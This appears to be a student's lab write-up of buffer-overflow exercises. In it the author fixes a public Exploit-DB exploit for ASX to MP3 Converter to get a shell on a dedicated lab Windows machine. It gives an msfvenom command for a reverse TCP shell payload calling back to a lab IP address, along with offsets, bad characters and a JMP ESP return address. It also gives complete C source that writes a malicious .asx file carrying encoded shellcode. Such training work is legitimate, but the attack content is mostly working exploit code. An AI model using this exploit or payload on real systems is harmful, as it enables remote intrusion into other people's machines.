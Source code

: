 ### 15.1.7.1 Exercises
#### 1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

- Fixed the initial buffer size by adding 1 byte to account for the null pointer on the end:

  ![image-20200715143313217](.15.1.7.1.assets/image-20200715143313217.png)

- Set breakpoint in Immunity & ran exploit.  EIP was successfully overwritten with the return address:

  ![image-20200715143457342](.15.1.7.1.assets/image-20200715143457342.png)

- Successful netcat shell
  ![image-20200715143641733](.15.1.7.1.assets/image-20200715143641733.png)

#### 2. Install the ASX to MP3 Converter application located under the C:\Tools\fixing_exploits directory; download the exploit for ASX to MP3 Converter from EDB and edit it in order to get a shell on your dedicated Windows machine.

This code was absolutely broken.  Almost nothing seemed to be correct about it, so I basically just started over from scratch with this exploit and just used the code as a framework for C, trusting basically nothing else about it.

- The C code didn't account for the null character in the overwrite_offset when concatenating the strings at the end, which caused the output file to stop at the overwrite_offset end and only contain the 'A' characters.  I subtracted one from the overwrite_offset string's length to keep the null character from being included in the concatenated string.

- Using the regular Buffer Overflow methods, I determined the following:

  - The buffer offset for EIP is 247 bytes (I used 248 length to allow space for the null character terminator)
  - The offset for ESP is 4 bytes
  - Badchars are  \x00\x09\x0a\x1a\x25\xff

- I generated a payload & inserted it into the C code:

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x09\x0a\x1a\x25\xff"
  ```

- I loaded asx2mp3converter.exe into Immunity and searched for the return address specified in the exploit code but it didn't exist.  I searched for a JMP ESP statement and found one at 0x1003789D in a loaded DLL.  I updated the exploit code return address to this.  

- I compiled and ran the code, but I kept getting access violations.  Adding 3 lines of NOP's fixed this issue and, with all of the above changes to this ~~trash~~ code, I was finally able to get a shell:
![image-20200716235101913](.15.1.7.1.assets/image-20200716235101913.png)
  
- Final C code

  ```c
  /*                                                                                                                
  ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак        
  недействительный 31337 Team                                                                                       
  holahola ~ https://www.exploit-db.com/exploits/38382/
  Winblows 2k3
  Badchars are  \x00\x09\x0a\x1a\x25\xff
  */                                                                                                                
                                                           
  #include <stdio.h>
  #include <windows.h>                                                                                              
  #include <malloc.h>                                                                                               
                                                                                                                    
  int main() {                                             
  
      int i;    
      char *overwrite_offset = malloc(248);
      for(i = 0; i < 248; i += 1) {
          char padding[] = "\x41"; 
          memcpy(overwrite_offset + i, padding, strlen(padding));
      }        
      memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);
                              
      char retn[] = "\x9d\x78\x03\x10"; // 1003789d
      char shellcode[] = 
      "\x42\x42\x42\x42" //ESP Offset
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP sled
      "\xb8\x32\xd2\x5a\x91\xd9\xcf\xd9\x74\x24\xf4\x5d\x29\xc9\xb1"                                                
      "\x52\x31\x45\x12\x83\xc5\x04\x03\x77\xdc\xb8\x64\x8b\x08\xbe"                                                
      "\x87\x73\xc9\xdf\x0e\x96\xf8\xdf\x75\xd3\xab\xef\xfe\xb1\x47"
      "\x9b\x53\x21\xd3\xe9\x7b\x46\x54\x47\x5a\x69\x65\xf4\x9e\xe8"                                                
      "\xe5\x07\xf3\xca\xd4\xc7\x06\x0b\x10\x35\xea\x59\xc9\x31\x59"                                                
      "\x4d\x7e\x0f\x62\xe6\xcc\x81\xe2\x1b\x84\xa0\xc3\x8a\x9e\xfa"
      "\xc3\x2d\x72\x77\x4a\x35\x97\xb2\x04\xce\x63\x48\x97\x06\xba"
      "\xb1\x34\x67\x72\x40\x44\xa0\xb5\xbb\x33\xd8\xc5\x46\x44\x1f"
      "\xb7\x9c\xc1\xbb\x1f\x56\x71\x67\xa1\xbb\xe4\xec\xad\x70\x62"
      "\xaa\xb1\x87\xa7\xc1\xce\x0c\x46\x05\x47\x56\x6d\x81\x03\x0c"                                                
      "\x0c\x90\xe9\xe3\x31\xc2\x51\x5b\x94\x89\x7c\x88\xa5\xd0\xe8"                                                
      "\x7d\x84\xea\xe8\xe9\x9f\x99\xda\xb6\x0b\x35\x57\x3e\x92\xc2"
      "\x98\x15\x62\x5c\x67\x96\x93\x75\xac\xc2\xc3\xed\x05\x6b\x88"                                                
      "\xed\xaa\xbe\x1f\xbd\x04\x11\xe0\x6d\xe5\xc1\x88\x67\xea\x3e"
      "\xa8\x88\x20\x57\x43\x73\xa3\x98\x3c\x0c\xeb\x71\x3f\xf2\x14"
      "\xc2\xb6\x14\x40\xd2\x9e\x8f\xfd\x4b\xbb\x5b\x9f\x94\x11\x26"                                                
      "\x9f\x1f\x96\xd7\x6e\xe8\xd3\xcb\x07\x18\xae\xb1\x8e\x27\x04"
      "\xdd\x4d\xb5\xc3\x1d\x1b\xa6\x5b\x4a\x4c\x18\x92\x1e\x60\x03"
      "\x0c\x3c\x79\xd5\x77\x84\xa6\x26\x79\x05\x2a\x12\x5d\x15\xf2"                                                
      "\x9b\xd9\x41\xaa\xcd\xb7\x3f\x0c\xa4\x79\xe9\xc6\x1b\xd0\x7d"                                                
      "\x9e\x57\xe3\xfb\x9f\xbd\x95\xe3\x2e\x68\xe0\x1c\x9e\xfc\xe4"                                                
      "\x65\xc2\x9c\x0b\xbc\x46\xbc\xe9\x14\xb3\x55\xb4\xfd\x7e\x38"
      "\x47\x28\xbc\x45\xc4\xd8\x3d\xb2\xd4\xa9\x38\xfe\x52\x42\x31"
      "\x6f\x37\x64\xe6\x90\x12";
                                                           
      int buffer_size = _msize(overwrite_offset) + strlen(retn) + strlen(shellcode);
      char *buffer = malloc(buffer_size);
                                                                                                                    
      memcpy(buffer, overwrite_offset, (_msize(overwrite_offset) - 1));
      memcpy(buffer + (_msize(overwrite_offset) - 1), retn, strlen(retn));
      memcpy(buffer + (_msize(overwrite_offset) - 1) + strlen(retn), shellcode, strlen(shellcode));
      memset(buffer + buffer_size - 1, 0x00, 1);   
                              
      FILE * fp;                                           
      fp = fopen("exploit.asx","w");                                                                                
      fprintf(fp, buffer);                                                                                          
      fclose(fp);                                                                                                   
                                                                                                                    
      return 0;                                                                                                     
                                                                                                                    
  }                                                        
  ```
  
  
